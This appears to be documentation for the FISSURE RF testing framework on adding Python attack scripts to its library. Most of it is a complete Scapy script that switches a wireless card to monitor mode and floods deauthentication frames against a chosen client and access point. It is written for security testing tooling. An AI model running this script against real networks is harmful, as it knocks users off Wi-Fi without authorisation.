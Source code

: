 # Attack Python Scripts

## Creating Python Scripts
Non-GNU Radio attacks can be added to the FISSURE library by uploading specially configured Python (.py) files. A function is needed within the Python script to identify which variables can be modified in the FISSURE Dashboard (`getArguments()`). Those variables are used by the system as command line arguments during execution of the script. All FISSURE branches accept both Python2 and Python3 attack scripts.

### Scapy Example
The following example uses Scapy to send multiple deauthentication frames from a wireless interface. Use the code as a reference for creating future Python scripts. 
```
from scapy.all import Dot11,Dot11Deauth,RadioTap,sendp
import os, sys

#################################################
############ Default FISSURE Header ############
#################################################
def getArguments():
    client = '00:11:22:33:44:55'        # Target MAC address
    bssid = 'AA:BB:CC:11:22:33'         # Access Point MAC address  
    iface = 'wlan0'	                    # Wireless interface name 
    channel = 1                         # Wireless channel
    interval = 0.01                     # Scapy interval
    arg_names = ['client','bssid','iface','channel','interval']
    arg_values = [client, bssid, iface, channel, interval]

    return (arg_names,arg_values)


if __name__ == "__main__":

    # Default Values
    client = '00:11:22:33:44:55'        # Target MAC address
    bssid = 'AA:BB:CC:11:22:33'         # Access Point MAC address  
    iface = 'wlan0'                     # Wireless interface name 
    channel = '1'                       # Wireless channel
    interval = '0.01'                   # Scapy interval

    # Accept Command Line Arguments
    try:
        client = sys.argv[1]
        bssid = sys.argv[2]
        iface = sys.argv[3]
        channel = sys.argv[4]
        interval = sys.argv[5]
    except:
        pass

#################################################
    
    # Create Frame
    packet = RadioTap()/Dot11(type=0, subtype=12, addr1=client, addr2=bssid, addr3=bssid)/Dot11Deauth(reason=7)

    # Set Monitor Mode and Channel
    os.system("sudo ifconfig " + iface + " down") 
    os.system("sudo iwconfig " + iface + " mode monitor") 
    os.system("sudo ifconfig " + iface + " up") 
    os.system("sudo iwconfig " + iface + " channel " + channel) 
	
    # Send Frame  
    sendp(packet, iface=iface, inter=float(interval), loop=1)
```

## Uploading Attack Files
Python files can be uploaded to FISSURE within the _Library>>Add_ tab by choosing a protocol and selecting "Attack". The file type must be set to "Python2 Script" or "Python3 Script" and the file must have a valid .py extension. Attacks added to the library and named with a proper "Attack Template Name" will immediately show up in the Attack tree widget.

